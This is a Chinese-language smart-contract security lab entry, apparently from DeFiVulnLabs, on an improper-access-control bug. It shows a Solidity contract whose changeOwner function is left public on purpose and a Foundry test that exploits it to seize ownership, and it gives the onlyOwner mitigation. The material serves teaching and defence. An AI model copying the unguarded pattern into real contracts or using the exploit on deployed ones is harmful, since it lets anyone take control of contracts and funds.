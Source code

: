 # 可见性  
[Visibility.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Visibility.sol)  

**名称：** 不当的访问控制漏洞  

**描述：**  
函数的默认可见性为Public。  
如果存在不安全的可见性设置，攻击者可以直接调用智能合约中的敏感函数。  
ownerGame 合约具有一个 changeOwner 函数，该函数旨在更改合约的所有者。  
然而，由于不当的访问控制，该函数是公开可访问的，可以被任何外部账户或合约调用。  
因此，攻击者可以调用此函数来更改合约的所有权，并掌控合约。  

**影响：** 任何人都可以更改合约的所有者。  

**缓解措施：**  
使用访问控制修饰符：Solidity 提供了诸如 onlyOwner 等修饰器，可用于限制函数的访问  

**OwnerGame合约：** 
```
contract ownerGame {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    // changeOwner 的可见性是错的，应该加上onlyOwner修饰器
    function changeOwner(address _new) public {
        owner = _new;
    }
}
```

**如何测试：**  
forge test --contracts src/test/Visibility.sol-vvvv  
```
// 用于测试在ownerGameContract合约中函数的可见性
function testVisibility() public {
    // 创建ownerGameContract合约的新实例
    ownerGameContract = new ownerGame();

    // 记录ownerGameContract合约的当前所有者。
    console.log("Before exploiting, owner of ownerGame:", ownerGameContract.owner());

    // 调用ownerGameContract的changeOwner函数，将所有者更改为msg.sender
    ownerGameContract.changeOwner(msg.sender);

    // 记录ownerGameContract合约的新所有者，现在应该是此函数的调用者。
    console.log("After exploiting, owner of ownerGame:", ownerGameContract.owner());

    // 记录一条表明攻击已完成的消息。
    console.log("Exploit completed");
}
``` 
**红框：** 所有者被更改  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6233a47b-90c4-4fff-a73b-fc417962f36b%2FUntitled.png?table=block&id=cfd25398-31cd-4483-966b-76737878afbd&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)